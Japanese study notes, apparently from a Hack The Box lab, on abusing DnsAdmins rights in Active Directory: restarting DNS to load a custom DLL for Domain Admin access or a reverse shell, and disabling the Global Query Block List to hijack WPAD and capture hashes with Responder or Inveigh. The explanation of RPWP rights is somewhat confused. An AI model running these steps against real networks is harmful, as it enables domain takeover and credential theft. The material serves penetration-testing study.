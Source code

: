 ```cmd-session
C:\htb> sc.exe sdshow DNS

D:(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)(A;;RPWP;;;S-1-5-21-669053619-2741956077-1013132368-1109)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)
```
- この[記事](https://www.winhelponline.com/blog/view-edit-service-permissions-windows/)によると、私たちのユーザーはRPWP権限を持っており、これはそれぞれ `SERVICE_START` および `SERVICE_STOP` に相当する
	- どういうこと？
		- **サービスオブジェクトに対するアクセス制御エントリ（ACE）** の一部で、具体的には「RP（ReadProperty）」および「WP（WriteProperty）」という2つの権限を組み合わせて「RPWP」と呼んでいる
	- なぜ RPWP でサービスの開始や停止が可能？
		- これはちょっと裏技的な話で、Windowsの サービスオブジェクトのDACL（アクセス制御リスト）で、サービスのStart/Stop権限は通常以下のようなアクセス権で定義されている
		- StartService() : SERVICE_START
		- ControlService()（停止など） : SERVICE_STOP
		- なので、サービスの「構成プロパティ」（たとえば Start モード）に書き込み（WP）したり、状態を読み取ったり（RP）することで、間接的にサービスの動作を操作できてしまうケースがあるから

DNSを停止、開始させて、DLLを読み込ませる
```cmd-session
C:\htb> sc.exe stop dns
C:\htb> sc.exe start dns
```

グループメンバーシップの確認
- 私たちのアカウントはDomain Adminsグループに追加されるか、カスタムDLLが接続を返すように作られていればリバースシェルを受信するはず
```cmd-session
C:\htb> net group "Domain Admins" /dom
Group name     Domain Admins
Comment        Designated administrators of the domain
Members
-------------------------------------------------------------------------------
Administrator            netadm
The command completed successfully.
```

> グループ権限は **ログオン時にトークンとして生成**されるため、**新しい権限はログインし直すまで反映されない**。
### WPAD悪用
- **ネットワーク通信を乗っ取る**
- DnsAdminsメンバーは、特定の危険な名前（WPADなど）の名前解決をブロックする`Global Query Block`セキュリティを無効にする権限を持ってる
- デフォルトでは、`Web Proxy Automatic Discovery Protocol (WPAD)` および `Intra-site Automatic Tunnel Addressing Protocol (ISATAP)` がグローバルクエリブロックリストに含まれている
- これらのプロトコルはハイジャックに対して非常に脆弱であり、任意のドメインユーザーがこれらの名前を含むコンピューターオブジェクトまたはDNSレコードを作成できる
- グローバルクエリブロックリストを無効にし、WPADレコードを作成した後、WPADという名前を攻撃者のマシンに向けるように設定する
	- WPADを使っている他のコンピューターは、攻撃者のマシンをプロキシ（中継地点）として使ってしまう
- 攻撃者は、ResponderやInveighのようなツールを使用してトラフィックスプーフィングを実行し、パスワードハッシュを取得してオフラインでクラックしたり、SMBRelay攻撃を実行したりすることができる

Global Query Block Listの無効化
- この攻撃を設定するために、まずグローバルクエリブロックリストを無効にする
```powershell-session
C:\htb> Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local
```
